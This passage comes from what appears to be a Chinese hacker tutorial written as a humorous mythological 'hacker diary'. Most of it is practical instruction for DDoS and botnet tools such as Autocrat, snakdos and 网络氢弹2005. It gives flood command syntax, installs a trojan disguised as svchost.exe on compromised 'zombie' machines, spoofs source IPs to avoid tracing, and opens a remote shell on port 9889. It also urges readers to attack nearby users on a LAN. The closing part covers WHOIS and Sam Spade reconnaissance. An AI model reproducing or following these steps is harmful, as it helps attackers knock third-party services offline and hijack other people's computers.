

有些读者看到这个，会感到无从下手，因为比起前两个攻击软件，这个软件给我们的感觉有点花。看着那一大堆功能模块，习惯于清爽界面的读者也许会不适应。其实你要做的就是右边那些命令按钮而已，左边的列表是Client能控制的所有主机，Client会自动读取左边列表，无须用户干涉。

## 使用事项

### 第1项：添加主机

你可以用Autocrat的扫描功能扫，但是目前这种方法无疑是大海捞针。所以我们最好还是自己动手安装Server。首先在对方计算机运行Server端。这个我们这里就不再演示了啊！点击“添加”按钮，输入对方IP（图3-7），点击OK即可。



### 第2项：检查Server状态

发动攻击前，为了保证Server有效，我们最好对它来次握手应答过程，把没用的Server踢出去。点击“检查状态”按钮，Client会对IP列表依次扫描检查，最后会生成一个报告（图3-8）。



### 第3项：清理无效主机

点“切换”按钮进入无效主机列表，用“清理主机”按钮把无效的废机踢出去，再按一次“切换”转回主机列表。

### 第4项：检查文件

别忘了wsock32.dll、ws2_32.dll、ws2help.dll这三个DLL，它们是攻击的关键。用“检查文件”按钮查看文件状态，如果发现文件没了，你可就要注意了，可以用extract命令释放文件。

### 第5项：攻击

好，经过前面的检测，我们现在可以发动攻击了。

SYN攻击：源可以随便输入，目标IP填你要攻击的IP或域名，源端口1—65535选择你要攻击的一个；目标端口：80——攻击HTTP，21——攻击FTP，23——攻击Telnet，25/110——攻击E-MAIL。  
LAND攻击：填目标IP和目标端口即可（同SYN）。  
FakePing攻击：源IP随便填，目标IP填你要攻击的IP，接下来就会有大量ICMP数据阻塞他的网络。  
狂怒之Ping攻击：直接填目标IP即可，原理同FakePing。

### 第6项：停止

攻击以后点“停止攻击”即可，不要太长时间用傀儡机发送大量攻击数据，这样会使傀儡机和对方的网络堵塞。

### 第7项：手工命令

如果你只想控制一台肉鸡，就在IP列表上你想控制的肉鸡IP上点一下，然后在“手工命令”后面选“单独”。现在：

```
stop  —— 停止
helo ID  —— 状态检查
syn [ip] [port] [ip] [port]  —— SYN攻击
land [ip] [port]  —— LAND攻击
fakeping [ip] [ip]  —— FakePing攻击
angryping [ip]  —— 狂怒之Ping
extract  —— 释放文件
```

### 第8项：信使服务

可以利用Windows的信使功能向傀儡机发送信息。

### 第9项：HTTP控制

这个方法最简单，直接在IE里输入 http://IP:8535 就可以，直接用Server攻击，不用Client也可以进行攻击。

独裁者DDoS攻击器是控制大量Server进行DDoS的工具，支持4种攻击方法：SYN、LAND、FakePing、狂怒之Ping，危险程度高，慎用。

程序分为Client和Server，Server在肉鸡里执行后会自动安装为NT服务程序并删除自身，以后将会采用NT Service方式在肉鸡上作为木马运行，可以Telnet/HTTP控制，方法：直接在IE输入 http://ip:8535 即可。

Server端自动兼容系统环境，在98/Me/2000/XP都能安装，98/Me下能发起狂怒之Ping攻击，2000/XP下能使用所有功能。


## snakdos 攻击器

这是一个可以发起ICMP Flood和SYN Flood攻击的工具，而且还是一个小型木马。它可以在远程主机开启一个SHELL，因为它可以被称作一个小木马，所以如果你把它作为木马时，你可以把它上传到远程主机并且运行。它将开启9889端口等待连接，你可以通过Telnet连接它。你将得到一个远程的SHELL，它具备以下几个功能：

- DOS功能，现在实现了ICMP Flood和SYN Flood功能。
- 一个远程的SHELL（和WinShell功能相似）。
- 进程相关功能，可以列出远程主机的进程并可以终止进程。
- 向远程主机发送一个消息（在远程主机将出现一个消息框）。

而如果我们把它作为一个本地的基于GDI或GUI的D.O.S工具使用呢？那么就好好地接着看啊。这个才是我们介绍它的目的啊。使用方法是在CMD下输入文件名并加“g”参数。如果没有加“g”的话就变为木马驻留了（如果直接用鼠标点击本程序图标，会显示参数错误，这是为了防止无意中运行而导致变为木马）。

### 示范

```
启动方法
c:\>snakdos.exe    // 作为木马启动
c:\>snakdos.exe g  // 作为本地D.O.S工具启动。
```

当我在C盘里启动它后会出来主界面（图4-1）。



```
远程连接方法
Telnet:
c:\>telnet xxx.xxx.xxx.xxx 9889
// 会出现一个SHELL，输入HELP可以查看帮助（图4-2）。
```

## 阿拉丁UDP攻击器 V2.0

神话故事里，关于阿拉丁神灯想必大家都很熟悉，那么对于一个攻击利器——阿拉丁UDP攻击器，你是否熟悉呢？其强大的威力不次于神话里的阿拉丁神灯，在很多教程和一些大规模攻击里它都发挥了自己的强大威力。运行后界面很简单（图4-3）。

看见了吗？无论你是个高手，还是个菜鸟，相信你即使没学过网络安全技术的话，那么你看到这个图也会明白了！在受害者IP填上IP地址，然后把端口也写上，这样配置部分就搞定了！


图4-2



图4-3

接下来就是攻击部分了，攻击分为“一般威力攻击”和“超强威力攻击”。如果你的机器性能一般的话，你点取“一般威力攻击”就可以了。虽然叫一般，但是威力可真的不是一般的啊。而如果你的机器性能足够好，那么你就点取“超强威力攻击”，瞬间就会看到被你攻击的机器的效果。如果你在内网的话，可以攻击下你旁边正在上网的网民，看下效果，绝对不一般的啊！

## 网络氢弹2005

网络氢弹2005，目前最好的DDoS工具，能用SYN FLOOD和UDP FLOOD两种方式攻击。原子弹、氢弹的威力大家一定不陌生。这款DOS软件既然叫网络氢弹（图4-4），那么它的威力就不言而喻了吧！



图4-4

使用很简单，首先你要找肉鸡，高带宽、配置高的肉鸡。肉鸡的好坏直接影响攻击效果，如果你使用了没任何效果，或者效果不足以让你惊讶，那你就要看看肉鸡是否带宽不高、配置不好，或者被限制了流量。

服务器端在肉鸡上的安装：如果肉鸡是WIN2000系统，那么请把svchost.exe放到肉鸡WINNT目录下，然后在命令提示符下输入：

```
c:\winnt\svchost /install
```

它会提示你安装成功，接着继续打命令：

```
net start systemservice
```

如提示启动成功，那么就做好了。如果是XP（估计拿XP做肉鸡的不多，但我还是写上），就放到WINDOWS目录下，然后在命令提示符下输入：

```
c:\windows\svchost /install
```

它会提示你安装成功，接着继续输入以下命令：

```
net start systemservice
```

如提示启动成功，那么就做好了。WINDOWS2003安装方法和XP一样。特别注意的是，有时候肉鸡上有防火墙会阻止炸弹发数据出去的。

安装好了后，你就可以用控制端命令它炸任何想炸的目标。特别说明一下，选用SYNFLOOD方式可以伪造IP攻击，一般情况下就用默认的*号，意思是随机伪造IP攻击，这样被攻击的人无法查到攻击来源。

## 日记五：第一次攻击我失败了

上古三年 103日 星期二 天气很好

既然基本了解了这些工具的原理及各个工具，那么不来一次实际攻击，那岂不是对不住自己几天来的辛苦学习啊！所以不管如何危险（其实也没什么危险），先攻击一次再说。但是DDoS并不像入侵一台主机那样简单，它需要有大量主机同时参与，这个可以通过两点来做：一是召集大量朋友集体攻击，但是作为弟子攻击自己的老师，本来就是不孝的行为，再说了，去哪里兴师动众地找那么多人啊？一个不小心就会直接被送进天牢，永远也翻不了身。另一方面就是用大量傀儡机（也有叫肉鸡的！^^），这个只要搞得好，那么神不知鬼不觉，谁会发现？说干就干。

> 菜鸟恶补：所谓傀儡机，就是指被我们控制了的网络服务器或个人PC。这种宽带一般在10MB以上的速率。一台傀儡机可以对付56K—640K ADSL；两台傀儡机可以对付2M，依此类推。

而我作为某名师的3000弟子里脱颖而出、被评为最优秀弟子之一，其原因不仅是因为俺技术（菜的技术）好，还因为我有个完全清醒的大脑（不过总的来说，我攻击自己的老师这个举动就算是很明智）。首先我买了半斤糖块贿赂了后羿的女儿——红孩儿（小编：“真长学问啊，原来后羿的女儿是红孩儿！”），然后红孩儿替俺打探到了关于后羿目前负责的服务器状况——目标主机数目、地址情况、目标主机的配置以及目标性能带宽。

这个我很轻松地就搞到了全面情报。其次，既然要扳倒后羿，第一步必须叫大家都知道我的厉害，否则就算后羿倒台了，天庭也不会请我去当这个官啊！首先我选好了他们公司的内部办公网。这个网站平时整日的浏览量，经过我几天没日没夜的蹲点观察，也基本心里有数了。也许有的人要问：“逢蒙啊！逢蒙啊！你还真是菜鸟，这个你还要了解下，有什么意思啊？”其实DDoS攻击中，情报收集是十分必要和关键的，是决定你成功或失败的关键一步。这关系到使用多少台傀儡机才能达到攻击效果的问题。简单地考虑一下，在相同条件下，攻击同一站点的2台主机需要2台傀儡机的话，攻击5台主机可能就需要5台以上的傀儡机。有人说攻击的傀儡机越多越好，反正不管你有多少台主机我都用尽量多的傀儡机来攻就是了，傀儡机越多效果越好。但在实际过程中，有很多黑客并不进行情报搜集而直接进行DDoS攻击，这时候攻击的盲目性就很大，效果如何也要靠运气。

情报收集好了以后，就要进行第二步了：如何取得傀儡机？根据我所学知识，最好的傀儡机要具有以下几个特点：链路状态好的主机、性能好的主机、安全管理水平差的主机。这三个是主要特点。而如何占领大量傀儡机我还没有系统学习，所以一想就一头雾水。但是我的口号就是不轻言放弃，怎么办呢？只好去向其他人借符合条件的肉鸡了。请八戒吃了一顿肯德基后，终于借到了200台肉鸡。（小编：“一顿KFC换了200台肉鸡，估计八戒能把人家店铺给吃了吧！~”）

> **菜鸟恶补：** 占领傀儡机的办法首先是扫描，随机或者有针对性地利用扫描器去发现互联网上那些有漏洞的机器，像程序溢出漏洞、cgi、Unicode、ftp、数据库漏洞……（简直举不胜举啊），都是黑客希望看到的扫描结果。随后就是尝试入侵了。

经过前2个阶段的精心准备之后，我就开始瞄准目标准备攻击了。实际攻击过程其实是比较简单的。

登录傀儡机的主控端，向所有傀儡机发出命令：“预备~，瞄准~，开火！”这时候埋伏在攻击机中的DDoS攻击程序就会响应主控端命令，一起向后羿所掌管的主机以高速度发送大量数据包。狂烈地攻击了4个小时后，我想后羿现在一定在哭爹喊娘了，自己假装去安慰下吧！于是俺去了三界机房，当时就傻眼了，原来后羿在机房控制室里悠闲地喝着小茶。

“啊！你来得正好，刚才我们的网站遭到了攻击，攻击者用那么几台傀儡机就想把我的网站搞垮，真是可笑。这么愚蠢的攻击者你认为会是谁呢？”后羿那个老狐狸明知故问道。我当时就想，一定是红孩儿给自己的情报不准确，导致自己白忙活了4个小时。

“这个，这个，我也不知道。”真是心有不甘！

> **任我小行温馨提醒：** 黑客一般会以远远超出受害方处理能力的速度进行攻击，他们不会“怜香惜玉”。老到的攻击者一边攻击，还会用各种手段来监视攻击效果，在需要的时候进行一些调整。简单些就是开个窗口不断地ping目标主机，在能接到回应的时候就再加大一些流量，或是再命令更多傀儡机来加入攻击。而逢蒙失败的原因正是因为傀儡机的攻击效率远远低于后羿机器的处理能力，不失败才见鬼了呢！

## 黑客日记

# 第三章：我的拜师生涯

| 条目 | 页码 |
|---|---|
| 日记六：开始拜师了 | 20 |
| 日记七：孙武！？ | 20 |
| 日记八：X-WAY2.6 | 22 |
| 日记九：继续x-way | 24 |
| 日记十：黑匣子 | 26 |
| 日记十一：学会扫描没商量 | 26 |
| 日记十二：又失败了 | 31 |
| 日记十三：ping | 31 |
| 日记十四：观音的ipc$金刚圈 | 33 |
| 日记十五：黑熊怪客串 | 36 |
| 日记十六：哪吒三太子的风轮：telnet | 38 |
| 日记十七：实例入侵 | 40 |
| 日记十八：WINDOWS2000查点 | 42 |
| 日记十九：netcat | 44 |
| 日记二十：唐僧的婆娑 | 46 |
| 日记二十一：魔法白龙马 | 49 |

## 日记六：开始拜师了！

上古十年 10月 星期九 雨儿飘飘

要想入侵后羿的系统，我知道是不容易的。后羿的黑客技术在佛、仙、冥三界基本是盖世无双的。就算他有的时候耍点小聪明，但是水平还是在那里放着的。想当年如来佛祖率领佛界大圣十八罗汉、观音菩萨等几百人去和他单挑（这么多人对付一个也叫“单挑”啊？），结果还是败下阵来。大家想一想，连如来佛祖这么厉害的角色都拿他没有办法，像我这样一个无名小卒又能怎样呢？前几天的失败就告诉我，要想干倒他，我必须去学习更多知识。

不过转念又想，既然后羿的技术水平那么高，又在他们公司里那么臭屁，一定树敌不少。比如如来佛祖、观音菩萨等等，一定暗地里不满他。既然这样，我何不去找个仙家投师问道，取各家之所长，就可以与老师一较高下了。俗话说得好：三个臭皮匠，顶个诸葛亮。这么多法力高强的神仙、菩萨、罗汉，我就不信赢不了小小的后羿。

主意想好了，可是先去找谁呢？万事开头难。唉，忽然想起了齐天大圣孙悟空。想当年他从石头中蹦出来的时候，拜师学艺五台山下，结果学得72般变化和驾驭跟斗云，后来还成了齐天大圣，大闹了天宫，实在是厉害。有关孙悟空的故事请参阅一个叫吴承恩的小子写的《西游记》。这小子当年偷偷观看了那惊天地泣鬼神的、轰轰烈烈的大闹天宫，后来尾随孙悟空去西天取经，记录成册，人世间才有了那本《西游记》。不过说实话，他真的有点不要face，做事不光明磊落，暗地里跟踪也就罢了，还将悟空和唐僧等人的私事抖露出来让别人看，实在是……（后记：吴承恩被罚成仙，专门替玉帝做打探别人私事的差事，这可是乐坏他了。）

我何不就去找孙悟空的老祖师呢？对，说去就去。乘着波音747飞机，一会儿功夫我就到了五台山。嘿嘿，拜见祖师。祖师见我态度诚恳、诚心学道，虽然动机不良，但也情有可原。他虽然不打算教我，但是也给我指了条明路：“茫茫东海，自有学道仙方，你去吧。”（这让我想起了孙悟空当年向他求取医术仙方的时候，他好像也是说了这么几句。这个老家伙到底有没有真才实学啊？整天就会叨咕这几句。不过也没有办法，只好去了东海。）又驾机来到东海，不过半路上风云突变，只好停了下来。也许是我拜师学艺的诚心感动了天地，老天都感动得哭了，而且是哇哇大哭。第一天就这样过去了，一事无成，真不知道是喜是忧。

## 日记七：孙武？！

上古四年 10月29日 星期零 晴

第二日艳阳高照，空气也特别清新。不过想想自己第一日的事情，也不免有些郁闷。结果，就满脸愁容地赶路。正郁闷的时候，对面飘来一位白发苍苍的老者，飘然而至。我定睛一看，竟然是孙武。奇怪了，孙武何时也成了仙啊。孙武早就料到我会## 第二章：我的拜师生涯

问他，还没等我开口，他就说话了：“如来佛祖让我来助你，我奉我佛如来法旨，来帮助逄蒙大侠，对付后羿。”

原来如来佛祖这么小心眼啊，对那件事情仍念念不忘。不过，这对我倒是有利，毕竟我现在行事就比较方便，而且还有人帮助。哈哈，后羿，这下你死定了！！！

我开门见山对孙武说：“既然佛祖有命，我怎敢不从。不过，不知大师有何高见？望指点一二。”这孙武倒也挺谦虚：“指点谈不上，只有些雕虫小技而已。”说着向我传授，我也比较好学，就赶紧做好笔记。

> “知己知彼，百战不殆”，这是我一辈子总结下来的至理名言。所以我们在入侵之前要先“知彼”，那怎样“知彼”呢？且听我慢慢道来：

首先要踩点和扫描。

> **菜鸟恶补：**  
> 踩点是获取对目标主机的信息技术（IT）状态的全面了解的过程。

恶意的黑客眼光：需要搜寻出未设防的、维护不佳或配置不当的基础设施中被人遗忘的角落。说着，他又从袖口拿出两件兵器：WHOIS 和 SAM SPADE，讲起来如何使用 WHOIS 和 SAM SPADE 进行 Internet 踩点。

WHOIS，查询 Internet 注册的标准工具。它能够提供一个组织的 Internet 状态的各种不同类型的信息，包括 Internet 注册数据、组织信息、域名系统服务器、网络地址段分配、接触点（POC）信息。

现在的许多扫描工具都集成了这一项功能，例如 Foundstone 的 SuperScan 4.0。打开 SuperScan 4.0 的主界面，选择“工具”标签，这里就是 SuperScan 4.0 集成的许多有用的小工具。例如查找主机、Ping、ICMP 跟踪等等。这里面当然就有 WHOIS 啦。（除了一般的 WHOIS 查询外，还有 CRSNIC WHOIS、ARIN WHOIS、RIPE WHOIS 和 APNIC WHOIS）。首先在“主机名/IP/URL”中填入“主机名/IP/URL”，我这里填入 www.tf168.com（一个提供免费域名的网站），然后点击“WHOIS”按钮，一会儿就出来结果了（图7-1），不过是英文的。英文不好，就不丢人了。闪~~~



如果想要查的地址很多的话，就可以先将以前的查询结果清除掉，点击“清除”按钮，一切 OK。下面介绍一下 Sam Spade。

**工具：Sam Spade（Windows 平台上的网络查询工具）**

- 类别：免费软件
- 平台：Windows
- 简介：SamSpade 提供了一个友好的 GUI 界面（图7-2），能方便地完成多种网络查询任务。它开发的本意是用于追查垃圾邮件制造者，但也能用于其它大量的网络探测、网络管理和与安全有关的任务，包括 ping、nslookup、whois、dig、traceroute、finger、raw HTTP web browser、DNS zone transfer、SMTP relay check、website search 等工具。

